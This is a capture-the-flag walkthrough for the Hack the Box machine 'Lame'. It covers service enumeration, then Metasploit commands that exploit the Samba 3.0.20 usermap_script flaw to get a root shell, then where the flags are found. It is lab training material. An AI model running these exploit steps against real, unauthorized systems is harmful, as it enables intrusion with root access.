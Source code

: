 ## Lame Walkthrough

This is a walkthrough for the first easy machine in Hack the Box - Lame. This is a very simple machine to root and is good practice for anyone wanting to get into HTB.

---

### Enumeration
IP Address: 10.10.10.3

The first thing that I did was run an Nmap scan on the target. I got four open ports back, and we can also tell that this is a Linux machine:

![Screenshot from 2023-02-22 15-41-43](https://user-images.githubusercontent.com/126024971/220765714-b6a07831-ee73-466c-9b25-9e97a7610009.png)

After this I did research on potential vulnerabilities based on the running services.

`Port 21: vsftpd 2.3.4` This is running on port 21 as an FTP server. It has a module in metasploit, but it says that the backdoor was removed. This might still be worth checking out.

https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/

`Port 22: OpenSSH 4.7p1` I was not able to find any exploits for this version of OpenSHH that I thought would be successful.

`Port 139: Samba smbd 3.X - 4.X` & `Port 445: Samba smbd 3.0.20` These services go hand-in-hand as they are running Samba. Samba 3.0.20 has a vulnerability assoicated with it that should give a remote shell with root access.

https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/

---

### Exploitation

`vsftp 2.3.4` The exploit for vsftp does not work (The HTB Offical walkthrough confirms this). While it does not work for this instance, it is a good exploit to keep in mind for the future if this version of vsftp comes up again.

`Port 139: Samba smbd 3.X - 4.X` & `Port 445: Samba smbd 3.0.20` This is how HTB wants you to root this machine. There is a metasploit module for this version of Samba that will give us a shell with root access. Here are the commands to run the exploit (They are also included in the rapid7 link):

NOTE: It is important for you to get your LHOST when you are running these metasploit modules. If you do not set the LHOST to the IP address that your HTB VPN is using, metasploit will default to your main IP address and you will not be able to connect to the target.

`mfsconsole`

`use exploit/multi/samba/usermap_script`

`show options`

`Set LHOST YOUR-HTB-VPN-IP`

`set RHOSTS 10.10.10.3`

`run`

After this, we have root access to the machine!
![Selection_002](https://user-images.githubusercontent.com/126024971/220772612-67f33199-7eb0-479e-a780-704c6c946a9e.png)

---

### Getting the Flags

Since we already have root access to the machine, we do not need to escalate privileges. All that is needed is to find where the user and root flags are located. I found the user flag in /home/makis/user.txt. If this is your first flag in HTB, you will need to use the `cat` command to list the contents of the txt file. After showing the flag, copy and paste it into the HTB site for the user flag.

![image](https://user-images.githubusercontent.com/126024971/220773457-3290e887-6ebd-44c0-823b-00c4942246eb.png)

The root flag is found under /root/root.txt

